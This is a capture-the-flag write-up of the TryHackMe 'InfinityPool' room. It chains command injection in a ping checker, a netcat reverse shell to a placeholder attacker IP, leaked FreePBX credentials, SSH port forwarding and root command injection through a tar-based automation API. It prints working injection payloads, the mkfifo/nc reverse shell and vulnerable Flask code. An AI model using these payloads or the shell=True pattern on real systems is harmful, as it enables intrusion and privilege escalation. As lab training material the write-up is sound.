## Overview

**InfinityPool** ([TryHackMe](https://tryhackme.com/room/hh-infinitypool-5b3548af)) is another Byte Lotus box — same surveillance-hotel branding, different bug. A staff connectivity checker that never made it into the public nav pastes our input straight into a `ping` command line, and that's the whole of the initial access. Root is the longer half: the box is also a phone system, and nearly everything that matters is bound to loopback, where nobody expected a shell to be standing.

---

## Enumeration

The room gives you an HTTP URL, so there's no scanning phase to speak of. Straight into the browser.



A single static page. The nav is decoration — every link in it points at `/`:

```html
<header class="bar">
  <div class="brand">BYTE&nbsp;LOTUS</div>
  <nav>
    <a href="/">Suites</a>
    <a href="/">Amenities</a>
    <a href="/">Contact</a>
  </nav>
</header>
```

That leaves the page source as the only thing worth reading, and `/static/app.js` turns out to be one line of code wrapped in a comment that gives away more than the rest of the site combined:

```javascript
// Byte Lotus front-end bootstrap.
// TODO(ops): the staff connectivity tool at /status posts to the legacy
// /internal/netcheck handler. Keep it out of the public nav until the new
// auth gateway ships. Disallowed in robots.txt for now.
console.log("Stay Noticed\u2122");
```

Two endpoints, and an admission that the only things keeping the tool private are a missing nav entry and a line in `robots.txt`. The "new auth gateway" hasn't shipped, which means `/internal/netcheck` has no auth in front of it at all.



The placeholder does a lot of work here — `property host e.g. 10.0.0.5`. The field wants a host and the server is going to do something with it.

---

## Initial Access

### Command injection in the connectivity checker

A form that takes a host and has the server reach out to it reads as SSRF, so that's the frame I started with. Burp, `127.0.0.1`, see what comes back.



The box does act on our input, and it'll happily talk to itself. But the response gives the game away: that isn't an HTTP fetch, it's raw `ping` output, statistics and all, printed back to us verbatim. A server that shells out to a command line and prints the unfiltered result is worth testing for injection before it's worth testing for SSRF, so:

```text
127.0.0.1;whoami
```



`web`, sitting under the ping statistics. Both reads were right, as it turns out. The box does reach out to whatever host we hand it, so the SSRF instinct held up — it just reaches out over ICMP, and an echo request we can't shape or read a response body out of is no way to pivot. Running commands on the box is the finding worth having.

Dropping the host entirely works too. `ping` just fails on an empty argument and the shell moves on to whatever follows the `;`:



`app.py` and `wsgi.py` next to a `venv` — a Flask app behind gunicorn. `;cat app.py` prints the whole thing:

```python
import subprocess
from flask import Flask, render_template, request, send_from_directory

app = Flask(__name__)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/status")
def status():
    return render_template("status.html", host="", output="")


@app.route("/internal/netcheck", methods=["POST"])
def netcheck():
    host = request.form.get("host", "").strip()
    if not host:
        return render_template("status.html", host="", output="No host supplied.")
    try:
        proc = subprocess.run(
            f"ping -c 1 {host}",
            shell=True,
            capture_output=True,
            text=True,
            timeout=15,
        )
        output = proc.stdout + proc.stderr
    except subprocess.TimeoutExpired:
        output = "Request timed out."
    return render_template("status.html", host=host, output=output)


@app.route("/robots.txt")
def robots():
    return send_from_directory(app.static_folder, "robots.txt", mimetype="text/plain")


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80)
```

There's the whole vulnerability in five lines:

```python
proc = subprocess.run(
    f"ping -c 1 {host}",
    shell=True,
    capture_output=True,
    text=True,
    timeout=15,
)
```

An f-string built from `request.form` and handed to `shell=True`, with a `.strip()` as the only thing standing between the two. Both halves of the output get returned to us as well, so we don't even need to work blind.

### Reverse shell

Pushing single commands through a form field gets old fast, so:

```bash
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <x.x.x.x> 4444 >/tmp/f
```

That landed on 4444 straight away. The usual pty upgrade, which also shows where the app actually lives:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



And the first flag is right there in the home directory:


> User flag: `THM{...}`
{: .prompt-info }

---

## Privilege Escalation

### Mapping the loopback services

`/var/www` holds more than our Flask app. Alongside `infinity_pool` sits `html`, and `html` is a FreePBX install — the PHP administration front end for Asterisk. So the box is pretending to be a phone system as well as a hotel website, and that changes what I expected the listening ports to look like:

```text
web@tryhackme-2404:~$ ss -tulpn
udp   UNCONN 0      0                 0.0.0.0:4569       0.0.0.0:*
udp   UNCONN 0      0                 0.0.0.0:49715      0.0.0.0:*
udp   UNCONN 0      0                 0.0.0.0:5060       0.0.0.0:*
udp   UNCONN 0      0              127.0.0.54:53         0.0.0.0:*
udp   UNCONN 0      0           127.0.0.53%lo:53         0.0.0.0:*
udp   UNCONN 0      0      10.112.171.48%ens5:68         0.0.0.0:*
udp   UNCONN 0      0                    [::]:36199         [::]:*
tcp   LISTEN 0      2048              0.0.0.0:80         0.0.0.0:*    users:(("gunicorn",pid=995,fd=5),("gunicorn",pid=663,fd=5))
tcp   LISTEN 0      4096              0.0.0.0:22         0.0.0.0:*
tcp   LISTEN 0      511             127.0.0.1:8080       0.0.0.0:*
tcp   LISTEN 0      10              127.0.0.1:8088       0.0.0.0:*
tcp   LISTEN 0      10              127.0.0.1:8089       0.0.0.0:*
tcp   LISTEN 0      4096           127.0.0.54:53         0.0.0.0:*
tcp   LISTEN 0      80              127.0.0.1:3306       0.0.0.0:*
tcp   LISTEN 0      2048            127.0.0.1:9000       0.0.0.0:*
tcp   LISTEN 0      2048            127.0.0.1:3000       0.0.0.0:*
tcp   LISTEN 0      10              127.0.0.1:5038       0.0.0.0:*
tcp   LISTEN 0      4096        127.0.0.53%lo:53         0.0.0.0:*
tcp   LISTEN 0      4096                 [::]:22            [::]:*
```

Only 22 and 80 face the network on TCP, and 80 is the gunicorn we already own. The exposed UDP ports belong to Asterisk — 5060 is SIP, 4569 is IAX2, 49715 is a high ephemeral port that came along with them. Real telephony attack surface, but nothing I wanted to spend the session on while seven services sat on loopback:

| Port | What it is |
| --- | --- |
| 3306 | MySQL |
| 5038 | Asterisk Manager Interface |
| 8088 / 8089 | Asterisk's own HTTP / HTTPS listeners |
| 8080 | unknown |
| 3000 | unknown |
| 9000 | unknown |

Loopback-only is a design decision that assumes nobody gets a shell. We have one, so every line in that table is now reachable.

Banner grabs first, since they're free:

```text
web@tryhackme-2404:~$ nc -nv 127.0.0.1 5038
Connection to 127.0.0.1 5038 port [tcp/*] succeeded!
Asterisk Call Manager/9.0.0

web@tryhackme-2404:~$ nc -nv 127.0.0.1 9000
Connection to 127.0.0.1 9000 port [tcp/*] succeeded!

web@tryhackme-2404:~$ nc -nv 127.0.0.1 3000
Connection to 127.0.0.1 3000 port [tcp/*] succeeded!
```

AMI on 5038 announces itself, but it wants a manager name and secret we don't have, so I parked it. The other two accept the connection and then sit there saying nothing, which is what an HTTP server does while it waits for a request line.

### Watchtower leaks the telephony credentials

```bash
curl -i http://127.0.0.1:3000/
```

```http
HTTP/1.1 200 OK
Server: gunicorn
Content-Type: text/html; charset=utf-8
Content-Length: 1294

<!doctype html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Watchtower &mdash; ops console</title>
<style>
[... inline CSS trimmed ...]
</style>
</head>
<body>
<header>WATCHTOWER &middot; <span class="muted">internal</span></header>
<main>
<h1>Surveillance operations</h1>
<p class="muted">Loopback-only console. Authenticated by network position.</p>
<div class="tiles">
<div class="tile"><b>1184</b><span class="muted">active feeds</span></div>
<div class="tile"><b>OK</b><span class="muted">datastore link</span></div>
<div class="tile"><b>root</b><span class="muted">automation worker</span></div>
</div>
<p class="muted" style="margin-top:28px">
Service endpoints: <code>/api/health</code> &middot; <code>/api/config</code>
</p>
</main>
</body>
```

"Authenticated by network position" is the exact assumption our reverse shell broke. The page even advertises its own API, and one of the status tiles says the automation worker runs as **root** — which is a strong hint about where this is going before we've touched anything.

`/api/health` is what the name suggests:

```json
{
  "bind": "127.0.0.1:3000",
  "service": "watchtower",
  "status": "ok"
}
```

`/api/config` is not:

```json
{
  "automation_endpoint": "http://127.0.0.1:9000",
  "note": "internal network only -- do not expose",
  "ops_note": "UCP still on default template creds (FreePBXUCPTemplateCreator) -- ROTATE.",
  "telephony_pass": "<UCP_PASS>",
  "telephony_portal": "http://127.0.0.1:8080/ucp",
  "telephony_user": "FreePBXUCPTemplateCreator"
}
```

An unauthenticated endpoint returning plaintext credentials, plus an ops note that reads like a ticket nobody ever picked up. It also resolves two rows of the table for us: 8080 is the FreePBX User Control Panel, and 9000 is the automation service.

9000 itself is unfriendly:

```http
HTTP/1.1 404 NOT FOUND
Server: gunicorn
Content-Type: text/html; charset=utf-8
Content-Length: 207

<!doctype html>
<html lang=en>
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```

No index, nothing to work with — so I left it and went looking for who owns these processes instead:

```text
web@tryhackme-2404:~$ ps aux | grep 3000
svc-wat+     664  0.0  0.6  34276 24340 ?        Ss   18:20   0:01 /var/www/infinity_pool/watchtower/venv/bin/python3 /var/www/infinity_pool/watchtower/venv/bin/gunicorn --workers 1 --bind 127.0.0.1:3000 wsgi:app
svc-wat+     916  0.0  0.7  42372 30060 ?        S    18:20   0:00 /var/www/infinity_pool/watchtower/venv/bin/python3 /var/www/infinity_pool/watchtower/venv/bin/gunicorn --workers 1 --bind 127.0.0.1:3000 wsgi:app

web@tryhackme-2404:~$ ps aux | grep 9000
root         662  0.0  0.6  34276 24200 ?        Ss   18:20   0:01 /var/www/infinity_pool/automation/venv/bin/python3 /var/www/infinity_pool/automation/venv/bin/gunicorn --workers 1 --bind 127.0.0.1:9000 wsgi:app
root        1010  0.0  0.7  42416 30132 ?        S    18:20   0:00 /var/www/infinity_pool/automation/venv/bin/python3 /var/www/infinity_pool/automation/venv/bin/gunicorn --workers 1 --bind 127.0.0.1:9000 wsgi:app
```

Watchtower drops to a dedicated service account (`ps` truncates it to `svc-wat+`). The automation service doesn't drop at all — both its gunicorn processes are root, matching the tile on the Watchtower dashboard. That's the target. Everything from here is about finding a way to talk to it.

### SSH key, then a tunnel to UCP

The config gave us a portal at `127.0.0.1:8080/ucp` and a set of credentials for it. Driving a FreePBX login by hand through `curl` is miserable — session cookies and form tokens — so I'd rather point a real browser at it. That means a tunnel, and a tunnel means SSH, and we don't have `web`'s password.

We don't need it if `web` can write its own `authorized_keys`:



The file was already there and empty, owned by `web` and writable. Append, log in, forward:

```bash
ssh -L 8888:127.0.0.1:8080 web@10.112.171.48
```

`http://127.0.0.1:8888/ucp/` then serves the User Control Panel, and the default template account is still live:



### The voicemail

The dashboard is completely empty on first login — no widgets, nothing configured. That's a UCP quirk rather than an empty account: in UCP the widgets *are* the account's view of its own data, so a blank dashboard tells you nothing about what the user can actually reach. I made a dashboard and added one of everything to find out.



> A blank panel in an unfamiliar admin UI is worth five minutes of clicking before you assume there's nothing behind it. Empty by default and empty of data are different things, and only one of them is the account telling you the truth.
{: .prompt-tip }

The Voicemail widget is the one that paid off:



A three-second message from extension `<9000>` with the caller ID set to `Automation Key <AUTOMATION_KEY>`. Someone typed the bearer token for the root service into a caller ID field, and the port number in the extension removes any doubt about which service it belongs to.

### Command injection as root

Back to 9000, this time with a reason to keep digging. Forward it as well and fuzz it, since the root path is a dead 404:

```bash
ssh -L 8889:127.0.0.1:9000 web@10.112.171.48
ffuf -u http://127.0.0.1:8889/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
```

```text
health                  [Status: 200, Size: 245, Words: 12, Lines: 2, Duration: 584ms]
```

One hit in the whole wordlist, and it documents the service for us:

```json
{
  "endpoints": {
    "GET /health": "service status",
    "POST /jobs/export": {
      "auth": "Authorization: Bearer <automation key>",
      "body": {
        "report": "<report name>"
      },
      "desc": "archive the latest data export"
    }
  },
  "runs_as": "root",
  "service": "automation",
  "status": "ok"
}
```

`POST /jobs/export`, bearer auth, one parameter, and `runs_as: root` stated outright. We have the key from the voicemail, so the first call is just to see what a normal request does:

```bash
curl -s -X POST http://127.0.0.1:9000/jobs/export \
  -H "Authorization: Bearer <AUTOMATION_KEY>" \
  -H 'Content-Type: application/json' \
  --data '{"report":"x"}'
```

```json
{
  "command": "tar czf /var/automation/exports/x.tgz /var/automation/data 2>&1",
  "output": "tar: Removing leading `/' from member names\n"
}
```

It hands back the shell string it built, which saves us any guesswork: `report` sits in the middle of a `tar` command line, unquoted. Same bug as the front-end checker, except this process is root. The one wrinkle is the `.tgz /var/automation/data 2>&1` tail that trails our injection point, so the payload ends in `#` to comment it away:

```bash
curl -s -X POST http://127.0.0.1:9000/jobs/export \
  -H "Authorization: Bearer <AUTOMATION_KEY>" \
  -H 'Content-Type: application/json' \
  --data '{"report":"anything; id #"}'
```

```json
{
  "command": "tar czf /var/automation/exports/anything; id #.tgz /var/automation/data 2>&1",
  "output": "uid=0(root) gid=0(root) groups=0(root)\ntar: Cowardly refusing to create an empty archive\nTry 'tar --help' or 'tar --usage' for more information.\n"
}
```

`uid=0`. The tar complaint is just the first half of the command running with no files to archive — noise we can live with, since `output` still carries everything our injected command printed. Same request from here, different payload:

```bash
--data '{"report":"anything; cd ~;ls #"}'
```

```json
{
  "command": "tar czf /var/automation/exports/anything; cd ~;ls #.tgz /var/automation/data 2>&1",
  "output": "root.txt\nsnap\ntar: Cowardly refusing to create an empty archive\nTry 'tar --help' or 'tar --usage' for more information.\n"
}
```

`/root/root.txt`, one `cat` away:

```bash
--data '{"report":"anything; cd ~;ls;cat root.txt #"}'
```

```json
{
  "command": "tar czf /var/automation/exports/anything; cd ~;ls;cat root.txt #.tgz /var/automation/data 2>&1",
  "output": "root.txt\nsnap\nTHM{...}\ntar: Cowardly refusing to create an empty archive\nTry 'tar --help' or 'tar --usage' for more information.\n"
}
```

> Root flag: `THM{...}`
{: .prompt-info }

---

## Conclusion

1. `/static/app.js` documented the endpoint it was trying to hide, including the note that the auth gateway protecting it didn't exist yet.
2. `/internal/netcheck` built its `ping` command with an f-string and ran it under `shell=True`, giving unauthenticated RCE as `web`.
3. Watchtower on 3000 treated "bound to loopback" as authentication and served the FreePBX credentials in plaintext from `/api/config`.
4. `web` could write its own `~/.ssh/authorized_keys`, which turned a fragile netcat shell into an SSH session and, more usefully, port forwarding into the loopback-only services.
5. The UCP account was still on the default FreePBX template credentials, and its voicemail inbox held the automation bearer key in a caller ID field.
6. The root-owned automation service concatenated `report` into a `tar` command line — the same bug as step 2, at uid 0.



| Stage | Tools |
| --- | --- |
| Enumeration | Browser, view-source |
| Initial access | Burp Suite, netcat, Python `pty` |
| Internal recon | `ss`, `ps`, netcat, `curl` |
| Pivoting | OpenSSH local port forwarding, ffuf |
| Privilege escalation | `curl` |
